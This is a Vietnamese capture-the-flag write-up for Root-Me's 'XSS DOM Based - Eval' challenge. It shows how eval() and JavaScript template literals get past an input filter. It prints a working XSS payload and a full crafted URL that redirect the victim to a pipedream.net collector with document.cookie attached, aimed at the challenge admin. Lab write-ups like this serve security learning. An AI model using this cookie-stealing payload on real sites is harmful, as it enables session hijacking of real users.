

# WRITE UP

## **Challenge:** [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Bài này cần ta thực hiện chèn XSS vào một input tính toán và bị filter bởi regex: **/^\d+\[\\+|\\-|\\\*|\\/\]\d+/**

Tuy vậy, sau khi fuzz thì thấy **eval()** cho phép thực thi phép toán **1+1asd:**

Như vậy, hướng đi của ta là chèn vào ở đây. Ta có script của server:

*&lt;script&gt;*

*var result = eval(1+1asd);*

*document.getElementById('state').innerText = '1+1asd = ' + result;*

*&lt;/script&gt;*

Mọi thứ đều bị filter khi cố chèn script vào đây. Đến đây, sau khi mò về Javascript thì mọi thứ có thể giải quyết với template literals ([Template literals (Template strings) - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)). Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có):

Thử chèn payload: **1+1\`${alert\`\`}\`**

Và như vậy, ta có thể đính kèm DOM Based vào đây:

Payload: **1+1\`${document.location="https://eol9dtzbk9673pb.m.pipedream.net?c="+document.cookie}\`**

Sau 10 giây, ta nhận được HTTP request. Giờ thì chuyển qua tab Contact và send cho admin. Ta có payload như sau: [*http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1\`${document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie}\`*](http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1%60$%7bdocument.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie%7d%60)

HTTP Request nhận được sau một khoảng thời gian:

Done:

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
